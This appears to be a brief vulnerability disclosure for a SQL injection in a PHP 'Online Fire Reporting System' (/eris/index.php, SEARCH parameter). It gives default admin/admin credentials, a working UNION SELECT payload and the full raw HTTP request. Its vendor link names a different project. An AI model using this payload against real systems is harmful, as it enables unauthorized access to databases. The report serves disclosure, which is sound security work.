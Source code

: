 # Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/index.php?q=result&searchfor=byfunction

Vulnerability location: /eris/index.php?q=result&searchfor=byfunction,SEARCH

Current database name: erisdb

[+] Payload: SEARCH=9890') union select 1,2,3,database(),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--+&CATEGORY=&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2 // Leak place ---> SEARCH

```sql
POST /eris/index.php?q=result&searchfor=byfunction HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 140

SEARCH=9890') union select 1,2,3,database(),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--+&CATEGORY=&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

![image](https://user-images.githubusercontent.com/54017627/170849313-4d07d322-e01d-48fc-911e-7900f3a49463.png)

![image](https://user-images.githubusercontent.com/54017627/170849323-e8d744e2-4a70-4d9e-901a-524f48cdf493.png)
